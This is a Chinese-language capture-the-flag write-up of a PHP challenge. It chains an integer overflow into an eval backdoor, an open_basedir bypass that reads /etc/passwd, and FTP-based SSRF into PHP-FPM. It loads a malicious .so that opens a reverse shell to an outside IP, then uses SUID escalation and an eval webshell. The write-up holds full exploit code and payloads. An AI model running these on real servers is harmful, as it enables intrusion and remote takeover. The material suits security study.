





题目涉及知识

1. PHP数组溢出
2. 绕过`open_basedir`
3. SSRF攻击FPM
4. 加载恶意 .so 扩展
5. SUID提权

# 第一种方法

题目给了附件直接下载,有两个文件

add_api.php

```
<?php
include "user.php";
if($user=unserialize($_COOKIE["data"])){
	$count[++$user->count]=1;
	if($count[]=1){
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
}else{
	$user=new User;
	$user->count=1;
	setcookie("data",serialize($user));
}
?>
```

user.php

```
<?php
class User{
	public $count;
}
?>
```

user.php就只定义了一个类，我们还是来看add_api.php

有一个命令执行的点,先来看看if的判断条件

```
if($user=unserialize($_COOKIE["data"])){
	$count[++$user->count]=1;
	if($count[]=1){
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
```

先看看空下标索引

```
<?php
$a[0] = 1;
$a[1] = 2;
$a[] = 3;
print_r($a);
```

运行结果


可以看到,当数组下表为空的时候,默认是数组的下一位

```
$count[++$user->count]=1;
	if($count[]=1){
```

那这个if的赋值语句的值是永真的

不过我们要进入else里面就需要让`$count[]=1`的值为false,所以要想办法绕过这里

在 PHP 中，整型数是有一个范围的，对于32位的操作系统，最大的整型是2147483647，即2的31次方，最小为-2的31次方。如果给定的一个整数超出了整型（integer）的范围，将会被解释为浮点型（float）。同样如果执行的运算结果超出了整型（integer）范围，也会返回浮点型（float）。

而对于64位的系统,最大的整型是9223372036854775807

进行`$count[]=1`赋值运算时，是往`$count[++$user->count]=1`这个赋值语句的键值后面一个赋值

当我们`$count[++$user->count]=1`这里的键值刚好没有溢出时，后面赋值语句就会溢出导致报错，返回值为0

所以当$count数组的上一个为整型,下一个溢出后变成浮点型赋值为1就会报错

这里让data=9223372036854775806,因为这里有一个数组自增,还有一个空下标索引,往后进两位

```
<?php
$userconut = 9223372036854775806;
$count[++$userconut] = 1;
$count[] = 1;
print_r($count);
```


payload

```
修改cookie
data=O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D;

然后
http://1e108216-260c-4428-a8f3-3bf27a9ee03c.node4.buuoj.cn:81/add_api.php?backdoor=phpinfo();
```


看一下disable_functions


过滤了这么多不,过这里没有过滤file_get_contents,file_put_contents,scandir,print_r等函数

设置了open_basedir


只能访问当前目录

利用chdir()和ini_set()组合绕过

```
<?php
mkdir('T0WN');  //创建一个目录T0WN
chdir('T0WN');  //切换到T0WN目录下
ini_set('open_basedir','..');  //把open_basedir切换到上层目录
chdir('..');  //以下这三步是把目录切换到根目录
chdir('..');
chdir('..');
ini_set('open_basedir','/');  //设置open_basedir为根目录(此时相当于没有设置open_basedir)
echo file_get_contents('/etc/passwd');  //读取/etc/passwda
```

payload

```
mkdir('T0WN');chdir('T0WN');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
```



读到了/etc/passwd


读一下flag


无法读取

回到phpinfo


php-fpm开启的

读取`/proc/self/cmdline`时发现当前进程是`php-fpm`


这道题应该是用php-fpm来绕过disable_functions了

看一下Nginx的配置文件查看fpm的端口信息

```
mkdir('T0WN');chdir('T0WN');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/nginx/sites-enabled/default');
```


发现fastcgi的端口开放在9001

我们可以通过SSRF来攻击FPM，但是受限于这道题的disable_functions，我们无法直接SSRF，但是可以利用`file_put_contents()`的一个特性来实现SSRF：

`file_put_contents`在使用 ftp 协议时, 会将 data 的内容上传到 ftp 服务器, 由于`pasv`模式下, 服务器的地址和端口是可控, 我们可以将地址和端口指到`127.0.0.1:9001`.同时由于 ftp 的特性,不会有任何的多余内容, 类似`gopher`协议, 会将`data`原封不动的发给`127.0.0.1:9001`, 完美符合攻击fastcgi(FPM)的要求.

写.so扩展

```
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/47.93.248.221/2333 0>&1'");
}
```

编译一下

```
gcc 1.c -fPIC -shared -o 1.so
```

将生成的1.so上传到靶机的/tmp目录下

```
mkdir('T0WN');chdir('T0WN');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');copy('http://47.93.248.221/1.so','/tmp/1.so');
```

看到已经上传成功了



利用如下exp生成payload

```
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;
    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;
    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
    const OVERLOADED           = 2;
    const UNKNOWN_ROLE         = 3;
    const MAX_CONNS            = 'MAX_CONNS';
    const MAX_REQS             = 'MAX_REQS';
    const MPXS_CONNS           = 'MPXS_CONNS';
    const HEADER_LEN           = 8;
    /**
     * Socket
     * @var Resource
     */
    private $_sock = null;
    /**
     * Host
     * @var String
     */
    private $_host = null;
    /**
     * Port
     * @var Integer
     */
    private $_port = null;
    /**
     * Keep Alive
     * @var Boolean
     */
    private $_keepAlive = false;
    /**
     * Constructor
     *
     * @param String $host Host of the FastCGI application
     * @param Integer $port Port of the FastCGI application
     */
    public function __construct($host, $port = 9001) // and default value for port, just for unixdomain socket
    {
        $this->_host = $host;
        $this->_port = $port;
    }
    /**
     * Define whether or not the FastCGI application should keep the connection
     * alive at the end of a request
     *
     * @param Boolean $b true if the connection should stay alive, false otherwise
     */
    public function setKeepAlive($b)
    {
        $this->_keepAlive = (boolean)$b;
        if (!$this->_keepAlive && $this->_sock) {
            fclose($this->_sock);
        }
    }
    /**
     * Get the keep alive status
     *
     * @return Boolean true if the connection should stay alive, false otherwise
     */
    public function getKeepAlive()
    {
        return $this->_keepAlive;
    }
    /**
     * Create a connection to the FastCGI application
     */
    private function connect()
    {
        if (!$this->_sock) {
            //$this->_sock = fsockopen($this->_host, $this->_port, $errno, $errstr, 5);
            $this->_sock = stream_socket_client($this->_host, $errno, $errstr, 5);
            if (!$this->_sock) {
                throw new Exception('Unable to connect to FastCGI application');
            }
        }
    }
    /**
     * Build a FastCGI packet
     *
     * @param Integer $type Type of the packet
     * @param String $content Content of the packet
     * @param Integer $requestId RequestId
     */
    private function buildPacket($type, $content, $requestId = 1)
    {
        $clen = strlen($content);
        return chr(self::VERSION_1)         /* version */
            . chr($type)                    /* type */
            . chr(($requestId >> 8) & 0xFF) /* requestIdB1 */
            . chr($requestId & 0xFF)        /* requestIdB0 */
            . chr(($clen >> 8 ) & 0xFF)     /* contentLengthB1 */
            . chr($clen & 0xFF)             /* contentLengthB0 */
            . chr(0)                        /* paddingLength */
            . chr(0)                        /* reserved */
            . $content;                     /* content */
    }
    /**
     * Build an FastCGI Name value pair
     *
     * @param String $name Name
     * @param String $value Value
     * @return String FastCGI Name value pair
     */
    private function buildNvpair($name, $value)
    {
        $nlen = strlen($name);
        $vlen = strlen($value);
        if ($nlen < 128) {
            /* nameLengthB0 */
            $nvpair = chr($nlen);
        } else {
            /* nameLengthB3 & nameLengthB2 & nameLengthB1 & nameLengthB0 */
            $nvpair = chr(($nlen >> 24) | 0x80) . chr(($nlen >> 16) & 0xFF) . chr(($nlen >> 8) & 0xFF) . chr($nlen & 0xFF);
        }
        if ($vlen < 128) {
            /* valueLengthB0 */
            $nvpair .= chr($vlen);
        } else {
            /* valueLengthB3 & valueLengthB2 & valueLengthB1 & valueLengthB0 */
            $nvpair .= chr(($vlen >> 24) | 0x80) . chr(($vlen >> 16) & 0xFF) . chr(($vlen >> 8) & 0xFF) . chr($vlen & 0xFF);
        }
        /* nameData & valueData */
        return $nvpair . $name . $value;
    }
    /**
     * Read a set of FastCGI Name value pairs
     *
     * @param String $data Data containing the set of FastCGI NVPair
     * @return array of NVPair
     */
    private function readNvpair($data, $length = null)
    {
        $array = array();
        if ($length === null) {
            $length = strlen($data);
        }
        $p = 0;
        while ($p != $length) {
            $nlen = ord($data{$p++});
            if ($nlen >= 128) {
                $nlen = ($nlen & 0x7F << 24);
                $nlen |= (ord($data{$p++}) << 16);
                $nlen |= (ord($data{$p++}) << 8);
                $nlen |= (ord($data{$p++}));
            }
            $vlen = ord($data{$p++});
            if ($vlen >= 128) {
                $vlen = ($nlen & 0x7F << 24);
                $vlen |= (ord($data{$p++}) << 16);
                $vlen |= (ord($data{$p++}) << 8);
                $vlen |= (ord($data{$p++}));
            }
            $array[substr($data, $p, $nlen)] = substr($data, $p+$nlen, $vlen);
            $p += ($nlen + $vlen);
        }
        return $array;
    }
    /**
     * Decode a FastCGI Packet
     *
     * @param String $data String containing all the packet
     * @return array
     */
    private function decodePacketHeader($data)
    {
        $ret = array();
        $ret['version']       = ord($data{0});
        $ret['type']          = ord($data{1});
        $ret['requestId']     = (ord($data{2}) << 8) + ord($data{3});
        $ret['contentLength'] = (ord($data{4}) << 8) + ord($data{5});
        $ret['paddingLength'] = ord($data{6});
        $ret['reserved']      = ord($data{7});
        return $ret;
    }
    /**
     * Read a FastCGI Packet
     *
     * @return array
     */
    private function readPacket()
    {
        if ($packet = fread($this->_sock, self::HEADER_LEN)) {
            $resp = $this->decodePacketHeader($packet);
            $resp['content'] = '';
            if ($resp['contentLength']) {
                $len  = $resp['contentLength'];
                while ($len && $buf=fread($this->_sock, $len)) {
                    $len -= strlen($buf);
                    $resp['content'] .= $buf;
                }
            }
            if ($resp['paddingLength']) {
                $buf=fread($this->_sock, $resp['paddingLength']);
            }
            return $resp;
        } else {
            return false;
        }
    }
    /**
     * Get Informations on the FastCGI application
     *
     * @param array $requestedInfo information to retrieve
     * @return array
     */
    public function getValues(array $requestedInfo)
    {
        $this->connect();
        $request = '';
        foreach ($requestedInfo as $info) {
            $request .= $this->buildNvpair($info, '');
        }
        fwrite($this->_sock, $this->buildPacket(self::GET_VALUES, $request, 0));
        $resp = $this->readPacket();
        if ($resp['type'] == self::GET_VALUES_RESULT) {
            return $this->readNvpair($resp['content'], $resp['length']);
        } else {
            throw new Exception('Unexpected response type, expecting GET_VALUES_RESULT');
        }
    }
    /**
     * Execute a request to the FastCGI application
     *
     * @param array $params Array of parameters
     * @param String $stdin Content
     * @return String
     */
    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('?file=ftp://ip:9999/&data='.urlencode($request));
//        fwrite($this->_sock, $request);
//        do {
//            $resp = $this->readPacket();
//            if ($resp['type'] == self::STDOUT || $resp['type'] == self::STDERR) {
//                $response .= $resp['content'];
//            }
//        } while ($resp && $resp['type'] != self::END_REQUEST);
//        var_dump($resp);
//        if (!is_array($resp)) {
//            throw new Exception('Bad request');
//        }
//        switch (ord($resp['content']{4})) {
//            case self::CANT_MPX_CONN:
//                throw new Exception('This app can\'t multiplex [CANT_MPX_CONN]');
//                break;
//            case self::OVERLOADED:
//                throw new Exception('New request rejected; too busy [OVERLOADED]');
//                break;
//            case self::UNKNOWN_ROLE:
//                throw new Exception('Role value not known [UNKNOWN_ROLE]');
//                break;
//            case self::REQUEST_COMPLETE:
//                return $response;
//        }
    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>"; 
$php_value = "unserialize_callback_func = system\nextension_dir = /tmp\nextension = 1.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = ";   //注意修改这里的so文件名称和路径
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001',    // 注意这里的FPM端口
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```

利用如下脚本在vps上搭建一个恶意的ftp服务器

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
s.bind(('0.0.0.0', 23))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9001)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

最后通过 eval() 构造如下恶意代码通过 file_put_contents() 函数与我们 VPS 上恶意的 FTP 服务器建立连接：

带着我们Exp生成的Payload后的DATA部分去触发SSRF即可执行我们so文件中的命令

```
/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://aaa@47.93.248.221:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%029%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%ADPHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Ftmp%0Aextension+%3D+1.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9001%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

这里的端口是恶意ftp的端口


拿到shell



不是读flag的时候发现权限不允许


看看SUID权限

发现php有SUID权限


直接进入php的交互shell,绕过open_basedir读取flag

```
mkdir('T0WN');chdir('T0WN');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/flag');
```


除此之外,这种去打FPM的可以用蚁剑的绕过disable_functions的插件一把梭,直接一键利用

# 第二种方法

disable_function 中ban了fsockopen函数，但我们用的蚁剑bypass FMP实际上就有用到这个函数，所以不能直接使用绕过。其次这题的FastCGI服务开在9001端口，这就得手动到蚁剑的文件中修改了

虽然禁止了fsockopen这个函数，但还有一个pfsockopen没被ban。这俩函数没啥区别

将下列文件中的fsockopen替换成pfsockopen。

```
antData\plugins\as_bypass_php_disable_functions-master\payload.js
antData\plugins\as_bypass_php_disable_functions-master\core\php_fpm\index.js
```

接着到`antSword-master\antData\plugins\as_bypass_php_disable_functions-master\core\php_fpm\index.js`中添加一个`127.0.0.1:9001`选项




开始蚁剑也没连上,因为开启了代理设置




注意添加Cookie

然后在/var/www/html目录下再写一个1.php

```
<?php eval($_POST[1]);?>
```

连接1.php

然后利用插件

选择fastcgi模式


再连接.antproxy.php,这样密码就是1了


进入后就可以看到根目录下的flag了


后记:

这道题涉及到的知识很多,对于利用PHP-FPM去打FTP,FTP挂载恶意的so文件这是第一次做


参考链接

https://woshilnp.github.io/2021/06/15/%E8%93%9D%E5%B8%BD%E6%9D%AF2021-One-Pointer-PHP/#%E5%8F%82%E8%80%83%E6%96%87%E7%AB%A0%EF%BC%9A

https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

https://blog.csdn.net/weixin_45669205/article/details/117061321
